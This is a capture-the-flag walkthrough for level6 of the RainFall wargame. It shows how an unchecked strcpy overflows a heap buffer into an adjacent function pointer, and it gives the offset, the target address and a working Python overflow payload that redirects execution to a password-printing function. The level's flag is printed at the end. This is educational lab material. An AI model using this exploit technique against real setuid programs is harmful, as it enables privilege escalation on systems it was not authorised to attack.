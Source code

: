 level6
======

*	We spawn with a [level6](source/level6) executable
	```console
	level6@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
	level6@RainFall:~$ ./level6 
	Segmentation fault (core dumped)
	level6@RainFall:~$ ./level6 test
	Nope
	```
*	Let's look at the [code](source/level6.c) :
	- `main` takes a string as argument and then:	
		- `malloc dest[64]`
		- `malloc ppcVar1[4]`
		- store address of `m` in `ppcVar1`
		- `strcpy()` input into `dest`
		- calls `(**ppcVar1)()`
	- `m` just `puts("Nope")`
	- `n` cat the password of the next level

	So this seems to be a new type of issue since we have no `gets` nor `printf` here.
*	Since `m` is called through `ppcVar1`, our main goal should be to replace the address to `n`. We might exploit `strcpy()` which does no memory bound checking.
*	Using `ltrace` allow us to check that `dest` and `ppcVar1` are contiguously allocated on the heap or else we wouldn't be able to overflow it the right way.
	```console
	level6@RainFall:~$ ltrace ./level6 
	[...]
	malloc(64)         = 0x0804a008
	malloc(4)          = 0x0804a050
	```
	They do go one after the other and have a `0x48(HEX)` -> `72(DEC)` bytes difference [64 + 4 + address(4) = 72]
*	Now we need the address of `n`
	```gdb 
	(gdb) x n 
	0x8048454 <n>:  0x83e58955
	```
	little endian -> `\x54\x84\x04\x08`
*	Let's finish this exercice:
	```console
	level6@RainFall:~$ ./level6 $(python -c 'print("a" * 72 + "\x54\x84\x04\x08")')
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
	```